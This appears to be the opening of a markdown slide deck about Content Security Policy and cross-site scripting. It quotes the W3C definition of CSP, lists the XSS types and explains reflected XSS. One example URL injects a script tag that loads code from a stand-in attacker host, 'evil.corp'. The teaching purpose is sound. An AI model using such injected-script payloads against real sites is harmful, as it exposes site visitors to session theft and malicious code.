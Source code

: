 > _CSP + Security Headers er et mareritt å komme seg forbi som pen-tester!_

---

# What is CSP?

From the W3C* definition :

>This [document](https://www.w3.org/TR/CSP3/#intro) defines Content Security Policy (CSP), a tool which developers can use to lock down their applications in various ways, mitigating the risk of content injection vulnerabilities such as cross-site scripting, and reducing the privilege with which their applications execute.

`*W3C = World Wide Web Consortium`

---

# Types of XSS attacks

There are several types of XSS:

|XSS      |-     |
|---------|------|
|Reflected|Type 1|
|Stored   |Type 2|
|DOM Based|Type 0|

`DOM = Document Object Model - W3C standard`

---

# Reflected XSS attack - 1 / 2

Reflected XSS occurs when user input is immediately returned by a web application in an error message, search result, or any other response that includes some or all of the input provided by the user as part of the request, without that data being made safe to render in the browser, and without permanently storing the user provided data.


Example:
```html
https://insecure-web.com/comment?message=<script src=https//evil.corp/badscript.js></script>
```

---
